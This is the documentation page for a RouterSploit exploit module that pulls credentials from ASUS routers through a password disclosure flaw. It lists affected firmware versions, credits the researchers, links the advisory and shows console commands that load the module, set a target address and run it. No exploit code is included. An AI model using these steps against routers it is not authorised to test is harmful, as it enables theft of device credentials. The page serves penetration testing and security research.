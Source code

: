# Asus RT-N16 Password Disclosure

## Description
Module exploits password disclosure vulnerability in Asus RT-N16 devices that allows to fetch credentials for the device.

## Authors
* Harry Sintonen # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://sintonen.fi/advisories/asus-router-auth-bypass.txt](https://sintonen.fi/advisories/asus-router-auth-bypass.txt)

## Vulnerable devices
* ASUS RT-N10U, firmware 3.0.0.4.374_168
* ASUS RT-N56U, firmware 3.0.0.4.374_979
* ASUS DSL-N55U, firmware 3.0.0.4.374_1397
* ASUS RT-AC66U, firmware 3.0.0.4.374_2050
* ASUS RT-N15U, firmware 3.0.0.4.374_16
* ASUS RT-N53, firmware 3.0.0.4.374_311

## Usage
```
rsf > use exploits/asus/rt_n16_password_disclosure
rsf (Asus RT-N16 Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       8080                 Target port


rsf (Asus RT-N16 Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Asus RT-N16 Password Disclosure) > run
[*] Running module...
```
